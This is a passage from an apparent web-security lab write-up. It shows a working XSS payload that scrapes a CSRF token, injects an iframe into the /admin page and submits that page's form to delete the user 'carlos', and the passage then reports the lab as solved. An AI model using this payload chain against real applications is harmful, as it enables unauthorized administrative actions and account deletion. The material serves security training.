 ![picture 11](/assets/images/ff792becc7d8ba2eb4fdd6dc53e5365790ad2acdc2877a7d3e23fd48807b788d.png)  

In order to delete `carlos` we need to submit a form (including CSRF value).

Next payload will do exactly that.

```html
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url){
	fetch(url).then(r=>r.text().then(text=>
	{
	xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
	}
	))
}

fetchUrl("http://192.168.0.145:8080");
</script>
```

We're now not expecting a callback but `Congratulations, you solved the lab!` message!